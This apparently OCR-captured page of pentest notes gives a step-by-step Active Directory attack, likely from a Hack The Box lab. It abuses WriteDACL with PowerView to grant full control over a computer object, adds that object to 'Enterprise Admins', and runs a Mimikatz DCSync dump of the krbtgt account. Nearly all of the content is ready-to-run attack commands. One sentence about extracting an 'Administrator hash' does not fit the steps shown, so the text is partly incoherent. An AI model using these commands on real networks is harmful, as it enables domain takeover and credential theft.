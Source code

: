 # **Computers: Gain Full Control Over a Computer Object**

**Scenario:**  
You have `WriteDACL` over a computer object. Use it to grant full control.

**Steps:**

1. **Import PowerView**  
   ```powershell
   import-module .\powerview.ps1
   ```

2. **Set Up Credentials**  
   ```powershell
   $pass = convertto-securestring 'abc123!' -asplain -force
   $cred = new-object system.management.automation.pscredential('htb\MG', $pass)
   ```

3. **Modify DACL to Grant Full Control**  
   Grant full control over the target computer (e.g., `comp01`):
   ```powershell
   Add-DomainObjectAcl -TargetIdentity comp01 -Rights All -PrincipalIdentity MG -Credential $cred
   ```
   - **Why:** This allows modification of computer attributes or other interactions.

4. **Add the Computer to Another Group**  
   Add the computer object to a privileged group, such as "Enterprise Admins":
   ```powershell
   Add-ADGroupMember -Identity "Enterprise Admins" -Members comp01$
   ```
   This sequence shows how to extract secrets using your new account (`MG`) and leverage the extracted `Administrator` hash for privileged access.
   Or
   Use Mimikatz or similar tools to execute the DCSync attack:
   ```powershell
   mimikatz # lsadump::dcsync /user:krbtgt
   ```
